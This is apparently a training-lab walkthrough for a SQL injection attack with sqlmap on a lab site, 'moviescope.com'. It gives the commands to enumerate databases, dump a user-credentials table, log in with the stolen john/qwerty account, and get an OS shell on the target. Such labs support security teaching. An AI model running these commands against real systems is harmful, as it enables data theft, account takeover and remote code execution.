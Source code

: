 sql ---------------------
A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.
In the [sudo] password for attacker field, type toor as a password and press Enter.
Note: The password that you type will not be visible.


dbms databases ---------

In the Parrot Terminal window, type sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied in Step 8]" --dbs and press Enter.
Note: In this query, -u specifies the target URL (the one you noted down in Step 6), --cookie specifies the HTTP cookie header value, and --dbs enumerates DBMS databases.
The above query causes sqlmap to enforce various injection techniques on the name parameter of the URL in an attempt to extract the database information of the MovieScope website.



If the message Do you want to skip test payloads specific for other DBMSes? [Y/n] appears, type Y and press Enter.
If the message for the remaining tests, do you want to include all tests for ‘Microsoft SQL Server’ extending provided level (1) and risk (1) values? [Y/n] appears, type Y and press Enter.
Similarly, if any other message appears, type Y and press Enter to continue.



sqlmap retrieves the databases present in the MSSQL server. It also displays information about the web server OS, web application technology, and the backend DBMS, as shown in the screenshot.


dbms tables ----------
Now, you need to choose a database and use sqlmap to retrieve the tables in the database. In this lab, we are going to determine the tables associated with the database moviescope.
Type sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 8]" -D moviescope --tables and press Enter.
Note: In this query, -D specifies the DBMS database to enumerate and --tables enumerates DBMS database tables.
The above query causes sqlmap to scan the moviescope database for tables located in the database.
sqlmap retrieves the table contents of the moviescope database and displays them, as shown in screenshot.

login--------------

Now, you need to retrieve the table content of the column User_Login.
Type sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 8]" -D moviescope -T User_Login --dump and press Enter to dump all the User_Login table content.
sqlmap retrieves the complete User_Login table data from the database moviescope, containing all users’ usernames under the Uname column and passwords under the password column, as shown in screenshot.You will see that under the password column, the passwords are shown in plain text form.


verify ---------------
To verify if the login details are valid, you should try to log in with the extracted login details of any of the users. To do so, switch back to the web browser, close the Developer Tools console, and click Logout to start a new session on the site.
The Login page appears; log in into the website using the retrieved credentials john/qwerty.
Note: If a Would you like Firefox to save this login for moviescope.com? notification appears at the top of the browser window, click Don’t Save.
You will observe that you have successfully logged into the MovieScope website with john’s account, as shown in the screenshot.

os --------------------

Now, switch back to the Parrot Terminal window. Type sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 8]" --os-shell and press Enter.
Note: In this query, --os-shell is the prompt for an interactive OS shell.
If the message do you want sqlmap to try to optimize value(s) for DBMS delay responses appears, type Y and press Enter to continue.
Once sqlmap acquires the permission to optimize the machine, it will provide you with the OS shell. Type hostname and press Enter to find the machine name where the site is running.
If the message do you want to retrieve the command standard output? appears, type Y and press Enter.


sqlmap will retrieve the hostname of the machine on which the target web application is running, as shown in the screenshot.


Type TASKLIST and press Enter to view a list of tasks that are currently running on the target system.



If the message do you want to retrieve the command standard output? appears, type Y and press Enter.

The above command retrieves the tasks and displays them under the command standard output section, as shown in the screenshots below.



Following the same process, you can use various other commands to obtain further detailed information about the target machine.

To view the available commands under the OS shell, type help and press Enter.



This concludes the demonstration of how to launch a SQL injection attack against MSSQL to extract databases using sqlmap.

Close all open windows and document all the acquired information.

You can also use other SQL injection tools such as Mole (https://sourceforge.net), Blisqy (https://github.com), blind-sql-bitshifting (https://github.com), and NoSQLMap (https://github.com) to perform SQL injection attacks.
